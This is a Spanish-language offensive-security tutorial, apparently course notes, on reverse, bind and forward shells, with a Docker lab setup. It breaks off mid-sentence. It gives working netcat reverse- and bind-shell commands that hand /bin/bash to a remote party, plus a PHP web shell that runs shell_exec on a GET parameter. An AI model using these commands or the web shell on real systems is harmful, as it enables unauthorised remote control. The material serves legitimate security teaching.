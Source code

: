 En esta clase, veremos las diferencias entre Reverse Shell, Bind Shell y Forward Shell:

- **Reverse Shell**: Es una técnica que permite a un atacante conectarse a una máquina remota desde una máquina de su propiedad. Es decir, se establece una conexión desde la máquina comprometida hacia la máquina del atacante. Esto se logra ejecutando un programa malicioso o una instrucción específica en la máquina remota que establece la conexión de vuelta hacia la máquina del atacante, permitiéndole tomar el control de la máquina remota.

- **Bind Shell**: Esta técnica es el opuesto de la Reverse Shell, ya que en lugar de que la máquina comprometida se conecte a la máquina del atacante, es el atacante quien se conecta a la máquina comprometida. El atacante escucha en un puerto determinado y la máquina comprometida acepta la conexión entrante en ese puerto. El atacante luego tiene acceso por consola a la máquina comprometida, lo que le permite tomar el control de la misma.

- **Forward Shell**: Esta técnica se utiliza cuando no se pueden establecer conexiones Reverse o Bind debido a reglas de Firewall implementadas en la red. Se logra mediante el uso de **mkfifo**, que crea un archivo **FIFO** (**named pipe**), que se utiliza como una especie de “**consola simulada**” interactiva a través de la cual el atacante puede operar en la máquina remota. En lugar de establecer una conexión directa, el atacante redirige el tráfico a través del archivo **FIFO**, lo que permite la comunicación bidireccional con la máquina remota.

Es importante entender las diferencias entre estas técnicas para poder determinar cuál es la mejor opción en función del escenario de ataque y las limitaciones de la red.

## Crear Entorno en Docker
### Crear un Docker file
```dockerfile
FROM ubuntu:latest

ENV DEBIAN_FRONTEND noninteractive

RUN apt update && apt install -y apache2 \
  php

EXPOSE 80

ENTRYPOINT service apache2 start && /bin/bash
```
#### Ejecutar 
```bash
## Contruir Imagen
docker build -t my_image .

## Construir contenedor
docker run -dit -p 80:80 --cap-add=NET_admin --name myContainer my_image

## Ejecutar contenedor
docker exec -it myContainer bash 
```
## Reverse Shell 
```bash
## Maquina Atacante
nc -nlvp 443

## Maquina Victima
ncat -e /bin/bash <IP-Atacante> <PORT>
# Ejemplo 👇
ncat -e /bin/bash 172.17.0.1 443

## Poner un prompt en la consola interactiva
script -c /dev/null -c bash
```
## Bind Shell
```bash
## Maquina Victima
ncat -nlvp 443 -e /bin/bash

## Maquina Atacante
nc <IP-Victima> <PORT>

## Poner un prompt en la consola interactiva
script -c /dev/null -c bash
```

## **📊 Diferencias Clave**

| Característica                              | Reverse Shell | Bind Shell  |
| ------------------------------------------- | ------------- | ----------- |
| **Quién inicia la conexión**                | La víctima    | El atacante |
| **Necesita que el atacante abra un puerto** | ✅ Sí          | ❌ No        |
| **Fácil de usar detrás de un firewall/NAT** | ✅ Sí          | ❌ No        |
| **Riesgo de detección en la víctima**       | 🔥 Alto       | ⚠️ Medio    |
## Forward Shell

- Podemos crear un archivo **cmd.php** para tener ejecución remota de comandos.
```php
<?
	echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
?>
```
- Este archivo lo podemos poner en la 
